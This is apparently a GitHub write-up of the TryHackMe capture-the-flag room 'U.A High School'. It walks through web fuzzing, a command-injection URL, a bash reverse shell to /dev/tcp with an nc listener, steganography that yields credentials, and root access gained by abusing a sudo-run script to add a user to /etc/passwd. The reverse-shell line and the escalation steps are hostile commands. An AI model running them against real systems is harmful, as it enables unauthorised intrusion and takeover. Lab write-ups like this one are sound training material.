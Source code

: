# Writeup for Room "U.A High School"

This is the writeup for the box U.A High School

## 🔍 Enumeration Phase

### 1. WebSite
- The website is running on Apache.
- No useful information was found in `robots.txt`.

    ![WebSite](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/00.png)

    ![robots.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/01.png)

### 2. Fuzzing
-  **Dirbuster / Gobuster** was used to find directories and files, the following images show the results:

    ![Fuzzing](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/02.png)

> [!NOTE]
> There is a file named ```index.php``` in the ```/assets/``` directory, the content of the file was:

    ![index.php](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/03.png)

## 📡 3. Nmap Scan
- The following information was found:
  - The port 22 is open. **SSH**
  - The port 80 is open. **HTTP (Apache)**

    ![Nmap Scan](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/gotta-catch'em-all!/screenshots/04.png)

## 4. More Fuzzing 
- After performing a more extensive investigation, the software ```dirsearch``` allows us to use the command ```dirsearch -u http://<ip>/assets/index.php``` to find more directories and checks the urls for more information.

    ![dirsearch](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/05.png)

> [!NOTE]
> Dirsearch shows us a url where I can execute shell commands, the url is: ```http://<ip>/assets/index.php?cmd=whoami```

    ![cmd](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/06.png)

## 🌐🖥️ 5. WebSite - Reverse Shell
- I decided to execute a reverse shell by injecting the following command in the URL: ```bash+-c+'bash+-i+>%26+/dev/tcp/ip/4444+0>%261'```.

    ![command-01](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/07.png)

- Then, I set up a listener with: ```nc -nvlp 4444```.

    ![command-02](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/08.png)

- I started navigating backwards in the current directory and found a folder named Hidden_Content, which contains a file called passphrase.txt. Inside, there is a Base64-encoded string: ```QWxsbWlnaHRGb3JFdmVyISEhCg==```.

    ![passphrase.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/09.png)

- The passphrase decoded is: ```AllmightForEver!!!```

    ![passphrase-2.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/10.png)

- The home has the following directories : 

    ![home-directories](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/11.png)

- I have seen the first flag but I got permission denied when I try to access the file.

    ![first-flag](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/12.png)

- I to try to access by ssh with the user ```deku``` with the passphrase found before but without success.

    ![ssh-connection](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/13.png)

- I have found several images in the ```/var/www/html/assets/images/``` directory.

    ![images](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/14.png)

- I have downloaded the images :

    ![images-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/15.png)

## 🕵️‍♂️🖼️ 6. Steganography

- I have used file and binwalk to check if the image has hidden information.

    ![stegonography](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/16.png)

- I have used steghide with passphrase to extract the hidden information from the image but wihtout success.

    ![steghide](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/17.png)

- The ```oneforall.jpg```image is corrupted, I have changed the magic bytes to the following:

    ![magic-bytes](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/18.png)

- Now if I use steghide with the passphrase, I get new credentials.

    ![steghide-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/19.png)

    ![cred](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/20.png)

## 🔑 7. SSH Access

- I have used the credentials to connect to the machine:
  
    ![ssh-access](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/21.png)

- Here, I have gotten the first flag ```user.txt```

    ![user.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/22.png)

## 🐚💻🚀 8 Privilege Escalation

- I have tried to use the command ```sudo -l``` to check the privileges of the user ```deku```:

    ![sudo-l](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/23.png)

- I am going to use ```linpeas.sh``` into the machine to check vulnerabilities.

    ![linpeas-1](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/24.png)

    ![linpeas-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/25.png)

- I have checked the exploit sections: 

    ![exploits](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/26.png)

- If I look the version of the software ```pkexec``` I get the following output:

    ![pkexec](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/27.png)

> [!NOTE]
> The website used to identify the vulnerability has been:
> https://www.exploit-db.com/exploits/50689
> I can use the following vulnerability to escalate privileges: https://ine.com/blog/exploiting-pwnkit-cve-20214034

- I try this but I was not successful, I tried with ```sudo -l``` and the credentials of the user ```deku``` and I got the following output:

    ![sudo-l-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/28.png)

- The content file is :

    ![content-file](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/29.png)

- The part about exploiting the feedback.sh file to escalate privileges was quite challenging for me, and without the help of writeups to understand what it does, I wouldn't have been able to achieve it, as I wouldn’t have reached the conclusion of creating a user.

- First, I create a password using the command ```mkpasswd -m md5crypt -s```

    ![mkpasswd](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/30.png)

- After creating the password, this password need be to formated in the following way:

    ![password-format](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/31.png)

- Second, I need to execute the feedback.sh file with the following command ```sudo /opt/NewComer/feedback.sh```

    ![feedback.sh](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/32.png)

- Now if I use the command ```tail -n1 /etc/passwd```, I can see the new user created.

    ![new-user](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/33.png)

- Finally, I can do a ```su MC``` with the password

    ![su-mc](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/34.png)

- I have gotten the second flag ```root.txt``` into the home directory of the user ```MC```

    ![root.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/35.png)
